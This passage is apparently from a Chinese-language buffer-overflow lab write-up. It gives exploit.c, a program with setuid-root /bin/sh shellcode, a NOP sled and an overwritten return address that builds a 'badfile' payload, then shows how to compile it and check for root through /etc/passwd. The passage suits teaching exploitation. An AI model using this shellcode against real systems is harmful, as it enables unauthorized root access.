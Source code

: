 ```c
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
// 恶意代码
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x31\xdb"             /* xorl    %ebx,%ebx              */
    "\xb0\xd5"             /* movb    $0xd5,%al              */
    "\xcd\x80"             /* int     $0x80                  */
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* 使用NOP填充 */
    memset(&buffer, 0x90, 517);

    strcpy(buffer+400, shellcode);  /* 恶意代码将插入到str[400]处开始的地方 */
    strcpy(buffer+0x24, "\x95\xeb\xff\xbf");  /* 控制bof函数返回到0xbfffeb95处，注意要倒序 */

    /* 生成badfile文件 */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

```

编译、运行exploit.c

```shell
gcc exploit.c -o exploit
./exploit
```

此时生成了badfile。

为了体现root权限有无，普通用户尝试修改/etc/passwd文件，执行`vim /etc/passwd`
